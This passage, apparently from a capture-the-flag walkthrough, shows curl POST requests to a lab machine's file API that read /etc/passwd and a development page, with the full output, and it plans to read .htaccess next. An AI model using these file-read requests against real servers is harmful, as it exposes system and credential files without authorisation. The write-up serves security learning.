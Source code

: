 Hmmm, it blocks our request. After a while of trying out different things, I've noticed that changing `GET` TO `POST` will allow us to return the correct ouptut - contents of `/etc/passwd`. 

{% highlight text %}
root@kali:~# curl -X POST -d file=/etc/passwd 10.0.0.14:8011/api/files_api.php

<head>
  <title>franks website | simple website browser API</title>
</head>

root:x:0:0:root:/root:/bin/bash
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
frank:x:1000:1000:frank,,,:/home/frank:/bin/bash
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:103:111:ftp daemon,,,:/srv/ftp:/bin/false
{% endhighlight %}

Okay, so as we can read files with that `api`, why don't we try and read the content of the `index` in `development` area?

{% highlight text %}
root@kali:~# curl -X POST -d file=/var/www/development/index.html 10.0.0.14:8011/api/files_api.php

<head>
  <title>franks website | simple website browser API</title>
</head>

<title>my Development tools</title>
<b>* Here is my unfinished tools list</b>

<h4>- the uploader tool (finished but need security review)</h4>
{% endhighlight %}

More information, there's possibly a tool to upload files. But still, we need to get access so we can use it. For now only reading is possible. 

But as the protection is from the web server itself, we could possibly find information about in `.htaccess` file. 
